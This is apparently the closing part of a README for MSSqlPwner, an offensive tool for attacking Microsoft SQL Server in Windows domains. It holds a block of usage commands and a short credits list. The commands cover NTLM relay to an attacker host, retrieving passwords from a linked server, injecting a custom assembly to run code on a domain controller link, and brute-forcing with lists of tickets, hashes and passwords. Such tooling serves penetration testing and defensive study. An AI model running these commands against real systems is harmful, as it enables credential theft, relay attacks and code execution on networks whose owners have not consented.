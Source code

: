 ```shell
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250

# Executing direct query
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth direct-query "SELECT CURRENT_USER"

# Retrieving password from the linked server DC01
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-server DC01 retrive-password

# Execute code using custom assembly on the linked server DC01
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-server DC01 inject-custom-asm SqlInject.dll

# Bruteforce using tickets, hashes, and passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -tl tickets.txt -ul users.txt -hl hashes.txt -pl passwords.txt

# Bruteforce using hashes, and passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -hl hashes.txt -pl passwords.txt

# Bruteforce using tickets against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -tl tickets.txt -ul users.txt

# Bruteforce using passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -pl passwords.txt

# Bruteforce using hashes against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -hl hashes.txt

```


## Thanks
- [Kim Dvash](https://www.linkedin.com/in/kim-d-5b3114111) for designing this incredible logo.
- [Pablo Martínez](https://www.tarlogic.com/blog/linked-servers-adsi-passwords/) for the inspiration and the idea of the retrieving password technique.
- [Omri Baso](https://www.linkedin.com/in/omri-baso-875aaa191/) for helping with inspiration and ideas.